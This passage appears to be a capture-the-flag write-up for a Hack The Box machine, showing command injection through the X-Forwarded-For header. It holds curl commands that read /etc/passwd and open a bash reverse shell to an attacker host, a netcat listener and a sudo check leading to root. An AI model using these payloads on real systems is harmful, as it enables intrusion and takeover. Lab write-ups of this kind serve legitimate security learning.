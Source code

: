 ## X-Forwarded-For Exploitation

It's using X-Forwarded-For (XFF) to identity the originating IP of the client. I covered exploiting this [here](https://pencer.io/ctf/ctf-thm-sqhell/#flag-2---blindtime---curl-method) on a TryHackMe room. Without sanitization of the user input this can be easily manipulated. Let's use this to grab the /etc/passwd file again:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -X GET -H 'X-FORWARDED-FOR: ;cat /etc/passwd;' --cookie "PHPSESSID=$PHPSESSID" 'http://10.10.11.128/firewall.php'
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
```

## Reverse Shell

That works, so time to get a reverse shell. I just used a simple PenTestMonkey one, start a nc listening in another terminal then send this:

```sh
┌──(root💀kali)-[~/htb/unicode]
└─# curl -X GET -H 'X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.14.13/1337 0>&1";' --cookie "PHPSESSID=$PHPSESSID" 'http://10.10.11.128/firewall.php'
```

Switch to see we have our shell connected:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.128] 35292
bash: cannot set terminal process group (805): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ 
```

## Privilege Escalation

At first glance I'm thinking all that effort and I only get in as www-data, but checking sudo shows us the path to root is nice and simple:

```text
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$
```
